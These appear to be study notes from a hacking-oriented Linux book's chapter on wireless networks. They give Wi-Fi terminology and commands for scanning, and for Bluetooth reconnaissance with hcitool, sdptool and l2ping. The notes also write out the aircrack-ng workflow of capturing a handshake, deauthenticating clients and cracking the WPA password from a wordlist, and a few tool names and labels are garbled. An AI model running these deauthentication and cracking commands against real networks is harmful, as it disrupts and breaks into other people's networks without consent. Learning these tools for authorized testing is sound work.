 ## Chapter 14 Understanding and Inspecting Wireless Networks 

### *Wi-Fi Networks*
- `AP (access point)`: This is the device wireless users connect to for internet access.
- `ESSID (extended service set identifier)`: This is the same as the `SSID`, which we discussed in 

`Chapter 3`, but it can be used for multiple APs in a wireless LAN.

- `BSSID (basic service set identifier)`: This is the unique identifier of each AP, and it is the same as the `MAC address of the device`.
- `SSID (service set identifier)`: This is the name of the network.
- `Channels Wi-Fi` can operate on any one of 14 `channels (1–14)`. In the United States, Wi-Fi is limited to `channels 1–11.`
- `Wireless range` In the United States, a Wi-Fi AP must legally broadcast its signal at an upper limit of 0.5 watts. At this power, 

    it has a normal range of about 300 feet (100 meters). High-gain antennas can extend this range to as much as 20 miles.

### *Basic Wireless Commands*
- `ifconfig`
- `iwconfig`
- `iwlist {interface} {action}`: `iwlist wlan0 scan`

You can perform multiple actions with iwlist. For our purposes, we’ll use the scan action to see all the Wi-Fi APs in your area. 

(Note that with a standard antenna, your range will be 300–500 feet, but this can be extended with an inexpensive high-gain antenna.)

with this command (`iwlist wlan0 scan`)

- `nmcli`: *Network Manager Command Line Interface*
- `nmcli dev wifi`
- `nmcli dev wifi connect {AP-SSID} password {APpassword}`

    e.g: nmcli dev wifi connect Hackers-Arise password 12345678

### *Wi-Fi Recon with aircrack-ng*
- `airmon-ng {start|stop|restart} interface`
    e.g: airmon-ng start wlan0
- `airodump-ng` 

    e.g: `airodump-ng wlan0mon`
- `airmon-ng`
- `airodump-ng -c 10 --bssid 01:01:AA:BB:CC:22 -w Hackers-ArisePSK wlan0mon`: Crack wifi for password 
- `aireplay-ng --deauth 100 -a 01:02:CC:DD:03:CF –c A0:A3:E2:44:7C:E5 wlan0mon`: Capture hash words 
- `aircrack-ng -w wordlist.dic -b 01:01:AA:BB:CC:22 Hacker-ArisePSK.cap`: Filter hash words with wordlist 

### *Bluetooth Scanning and Reconnaissance*
- `bluez`: Scan Bluetooth
- `sudo apt update && sudo apt install bluez -y`: Install bluez
- `hiconfig`: Scanning Bluetooth
- `hiconfig {nameBluetooth} up`: 
    
    e.g: hiconfig hic0 up
- `hcitool scan`: Scanning bluetooth with `hcitool` 
- `hcitool inq`
- `hcitool --help`

### *Scanning for Services with sdptool*
- `sdptool browse {macAddress}`

    e.g: `sdptool browse 76:6E:46:63:72:66`

- `l2ping {MACaddress} -c {NumberOfPackets}`

    e.g: `l2ping 76:6E:46:63:72:66 -c 3`

### *Exercise* 
- `Do it by your own`
